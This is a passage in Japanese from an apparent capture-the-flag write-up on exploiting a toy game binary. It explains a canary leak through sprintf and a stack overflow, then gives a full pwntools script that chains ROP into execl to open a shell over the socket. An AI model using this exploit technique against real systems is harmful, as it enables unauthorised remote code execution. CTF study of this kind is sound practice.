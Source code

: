 ### 攻撃

攻撃可能な箇所としては、

-   1番の選択肢で、HPが特定の不正な値のとき`execl("/bin/sh", "sh", NULL);`が呼ばれる。
-   4番の選択肢で、stack buffer overflowがある。overflow後そのbufferの中身を`sprintf`する。
-   5番の選択肢で、`0x08`から始まらない好きなアドレスをcallできる。

攻撃には4番のbofだけあれば十分である[^2]。
ただし1番の`execl`を利用するとropが少し楽になる。

bofを利用する上でstack canaryが邪魔であるが、`sprintf`でbufferが表示されることを用いればcanaryを流出させることができる[^3]。
bufferは10byteありcanaryの下位1byteは`0x00`なので11byte書き込めばよい。
同時に[^4]saved ebpやreturn先アドレスも読み取れる。

後はropする。
`execl`や`"/bin/sh"`があるので、これを用いて`execl("/bin/sh", "/bin/sh", "-c", "sh <&4 >&4");`を呼ぶだけ。
`4`はsocketのfdである。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

# leak stack
p = remote('localhost', 8888)
p.recvuntil('- Attack menu -')
p.recvuntil('>')
p.sendline('4')
p.recvuntil('Are you sure? (y/n) ')
p.send('y' * 11)
s = p.recvline()
p.close()
canary = u32('\0' + s[23:][:3])
ebp = u32(s[34:][:4])
ret = u32(s[38:][:4])
buf = ebp - 0x46
bin_base = ret - 0x12c5

# rop
call_write = 0x8048991
bin_sh = 0x804970d
call_execl = 0x8048c79
p = remote('localhost', 8888)
p.recvuntil('- Attack menu -')
p.recvuntil('>')
p.sendline('4')
p.recvuntil('Are you sure? (y/n) ')
payload = ''
payload += 'A' * 10
payload += p32(canary)
payload += 'A' * 0xc
payload += p32(call_execl)
payload += p32(bin_sh)
payload += p32(bin_sh)
payload += p32(buf + len(payload) + 0xc)
payload += p32(buf + len(payload) + 0x8 + 3)
payload += p32(0)
payload += '-c\0'
payload += 'sh <&4 >&4\0'
p.send(payload)

p.sendline('ls')
p.interactive()
```


[^1]: プログラミングを始めたとき、猫でもわかるcでwhile文ぐらいまで読んで、こんな感じの雑なゲームを作って喜んでいた覚えがある。懐しい。
[^2]: 5番の明らかなそれはいったい何だったのだろう。他の人のwriteupを見ても使われていなかった。
[^3]: `sprintf`がなくても$256 * 3$回程度の試行で判明するはず。`sleep(2);`があるが最悪でも30分は越えない。
[^4]: 環境によっては複数回に分ける必要があるかも。
[^5]: binaryの先頭から訳していってかつ(やる必要がなかった気がしてきて)やる気が単調減少していったのが分かる味わい深いコード。もうちょっと要領良くやりたいですね。
[^6]: libcはuploadされてないだけで本番は与えられていたのかな、と思っていたけどそうではなかったらしい。